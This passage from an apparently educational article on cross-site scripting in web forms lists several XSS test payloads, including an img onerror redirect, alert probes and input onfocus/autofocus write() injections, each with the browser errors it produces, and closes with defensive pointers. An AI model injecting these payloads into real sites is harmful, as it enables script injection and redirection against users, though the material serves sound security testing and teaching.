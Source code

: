 This script gets the value of another element and adds it to a redirection:
```HTML
<img src='x' onerror='window.location.href=(document.querySelector("#treasure").value)'>
```




### Converts partly or not into javascript

If src='foo' is replaced by src='x' this converts into script:
```HTML
<img src='foo' onerror='alert(1)'>
```

This script creates an input element which gives error in console:
"Autofocus processing was blocked because a document already has a focused element."
When the element is focused another error is displayed:
"Invalid or unexpected token (at (index):1:7)"
```HTML
<input onfocus=write('all content visible after interaction') autofocus>  
```

This script creates an input element. When the element is focused another error is displayed:
"Unexpected token '<' (at (index):1:7)"

```HTML
<input onfocus=write(<script>all text in the bodytag of a new document</script) autofocus>
```

This script creates an input element. When the element is focused another error is displayed:
"Invalid or unexpected token (at (index):1:7)"
```HTML
<input onfocus=write('all content visible after interaction') autofocus>
```

This script creates an input element. When the element is focused another error is displayed:
"Invalid or unexpected token (at (index):1:7)"
If only the 'console.log(1)' remains, the entire page is replaced with this text.
```HTML
<input onfocus=write('console.log(1) and more') autofocus>
```

This script creates an input element. When the element is focused a script node is added to the dom, visible in devtools "sources". 
```HTML
<input onfocus=write('<script>console.log(1)_and_more') autofocus>
```

### More testcases
[https://html5sec.org/](https://html5sec.org/)

## The treatment
To fully protect against xss in forms is out of the scope of this article. Some guiding links and advice follows.

### General approach
*Search for all places where user input through a HTTP request could possibly make its way into the HTML output.*  
[MDN form validation](https://developer.mozilla.org/en-US/docs/Learn/Forms/Form_validation)  

